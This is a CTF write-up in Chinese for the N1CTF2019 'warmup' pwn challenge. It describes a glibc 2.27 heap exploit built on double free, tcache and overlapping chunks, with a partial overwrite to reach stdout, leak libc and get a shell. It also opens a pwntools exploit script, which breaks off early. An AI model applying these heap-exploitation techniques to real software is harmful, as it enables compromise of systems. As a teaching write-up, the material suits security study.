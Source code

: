 ```yaml
---
title: N1CTF2019 部分pwn题解
categories: 
- N1CTF2019
---
```

# n1ctf2019部分pwn题解

## warmup

### 漏洞利用

程序free的时候会把chunk_addr放到bss里，free(ptr)完毕清空list但是不清空ptr，因此会有double free，但只是针对当前块。edit是从chk_lis取地址进ptr，因此没有UAF。先double free，部分写分配到前面的heap修改size，由于libc版本是2.27，改完size后free8次得到ub。

由于只能固定分配0x50大小的chunk，我们先用double free改掉打算做overlapping chunk的size为0x41，再free的话放入tcache[0x40]，从而malloc(0x40)的时候不会用到这个块，构造overlapping chunk，让刚才tcache的fd写入main_arena+96，再部分写改成stdout，其size再改回0x51，最后用double free构造分配链到这个chunk，最终可以分配stdout，后面泄露地址，拿shell即可。

![bins](./1.jpg)

### exp.py

关闭地址随机化的非爆破版

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./warmup')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./warmup')

def Add(content):
    p.recvuntil('>>')
    p.sendline('1')
    p.recvuntil("content>>")
    p.send(content)

def Delete(index):
    p.recvuntil('>>')
    p.sendline('2')
    p.recvuntil("index:")
    p.sendline(str(index))

def Edit(index,content):
    p.recvuntil('>>')
    p.sendline('3')
    p.recvuntil("index:")
    p.sendline(str(index))
    p.recvuntil("content>>")
    p.send(content)

def exp():
    #leak libc
    Add('0')#0
```